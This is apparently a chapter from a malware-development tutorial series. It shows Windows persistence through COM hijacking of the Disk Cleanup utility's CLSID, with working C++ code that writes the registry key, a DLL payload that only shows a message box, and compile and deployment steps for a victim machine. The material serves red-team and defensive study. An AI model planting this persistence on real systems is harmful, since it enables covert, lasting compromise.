




\newpage
\subsection{85. malware development: persistence - part 19. Disk Cleanup Utility. Simple C++ example.}

﷽

{width="80%"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Disk Cleanup Utility.     

### disk cleanup

If you have ever had an issue with limited hard disk space, you are certainly familiar with the Disk Cleanup utility:    

{width="80%"}    

Good news for red teamers, the *"Files to delete"* list displayed in the user interface is not random. Just run command:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

{width="80%"}    

{width="80%"}    

As you can see, there are even default values ​​of registry keys here.    

Also, if we have `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, we can find another registry key value: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

{width="80%"}    

{width="80%"}    

> For demo purposes, here I show the example of the registry from HKEY_CLASSES_ROOT because HKEY_CURRENT_USER is empty

This suggests, that we can use [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) for persistence. Let's try.    

### practical example

First of all, as usually, create "evil" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, 
LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, for simplicity, it's just `meow-meow` messagbox.    

And then create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}
  \\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

As CLSID I took `8369AB20-56C9-11D0-94E8-00AA0059CE02`. As you can see code is similar to [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) post. The difference is only in the values of the variables.   

### demo

Let's go to compile our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

{width="80%"}    

And persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}    

Copy to victim's machine. In my case `Windows 10 x64`. Run:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

{width="80%"}    

{width="80%"}    

As you can see, everything is worked perfectly! =^..^=     

But for persistence. requires the user to run Disk Cleanup Utility. Here, I can use [one of the classic trick](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) for persistence. Adding Disk Cleanup to run during the start-up may not be the best idea, because it has a GUI. I tried using the command line arguments of this program:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

But failed :(. It worked correctly:       

{width="80%"}    

I think I will return to this issue in one of the future posts.       

Also, according to microsoft documentation, we can add new entries to: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)     
